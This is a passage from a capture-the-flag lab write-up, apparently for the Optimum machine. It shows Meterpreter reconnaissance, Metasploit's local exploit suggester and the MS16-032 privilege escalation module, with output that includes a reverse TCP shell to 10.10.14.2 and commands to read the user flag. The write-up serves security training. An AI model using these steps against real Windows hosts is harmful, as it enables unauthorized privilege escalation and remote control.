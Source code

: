 **Command/Code:**
```bash
getuid
sysinfo
shell
whoami
```

**Output:**
```
Server username: OPTIMUM\kostas
Computer        : OPTIMUM
OS              : Windows 2012 R2 (Build 9600).
Architecture    : x64
System Language : en_US
Domain          : OPTIMUM
Logged On Users : 1
Meterpreter     : x64/windows
```

### Step 5: Privilege Escalation
Check for privilege escalation opportunities using Windows Exploit Suggester.

**Command/Code:**
```bash
background
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

### Step 6: MS16-032 Exploitation
Use the MS16-032 exploit for privilege escalation.

**Command/Code:**
```bash
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION 1
exploit
```

**Output:**
```
[*] Started reverse TCP handler on 10.10.14.2:4445 
[*] Writing payload file to C:\Users\kostas\AppData\Local\Temp\cVQJhV.exe
[*] Sending stage (175174 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.14.2:4445 -> 10.10.10.8:49159) at 2024-09-03 10:10:23 +0000
```

### Step 7: Find User Flag
Search for the user flag.

**Command/Code:**
```bash
getuid
dir C:\Users\kostas\Desktop
type C:\Users\kostas\Desktop\user.txt
```
